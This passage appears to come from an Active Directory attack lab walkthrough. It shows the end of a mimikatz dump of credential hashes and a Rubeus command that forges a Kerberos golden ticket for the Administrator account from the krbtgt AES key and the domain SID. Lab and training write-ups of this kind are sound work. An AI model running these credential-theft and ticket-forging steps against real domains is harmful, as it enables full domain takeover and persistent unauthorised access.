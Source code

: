 ```powershell
    09  e8ddc0d55ac23e847837791743b89d22
    10  5c324b8ab38cfca7542d5befb9849fd9
    11  f84dfb60f743b1368ea571504e34863a
    12  e8ddc0d55ac23e847837791743b89d22
    13  2281b35faded13ae4d78e33a1ef26933
    14  f84dfb60f743b1368ea571504e34863a
    15  d9ef5ed74ef473e89a570a10a706813e
    16  d9ef5ed74ef473e89a570a10a706813e
    17  87c75daa20ad259a6f783d61602086aa
    18  f0016c07fcff7d479633e8998c75bcf7
    19  7c4e5eb0d5d517f945cf22d74fec380e
    20  cb97816ac064a567fe37e8e8c863f2a7
    21  5adaa49a00f2803658c71f617031b385
    22  5adaa49a00f2803658c71f617031b385
    23  6d86f0be7751c8607e4b47912115bef2
    24  caa61bbf6b9c871af646935febf86b95
    25  caa61bbf6b9c871af646935febf86b95
    26  5d8e8f8f63b3bb6dd48db5d0352c194c
    27  3e139d350a9063db51226cfab9e42aa1
    28  d745c0538c8fd103d71229b017a987ce
    29  40b43724fa76e22b0d610d656fb49ddd


mimikatz(commandline) # exit
Bye!
```

### 2 - Using the secrets of krbtgt account, create a Golden ticket

We can create a golden ticket using the following Rubeus command:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd
```
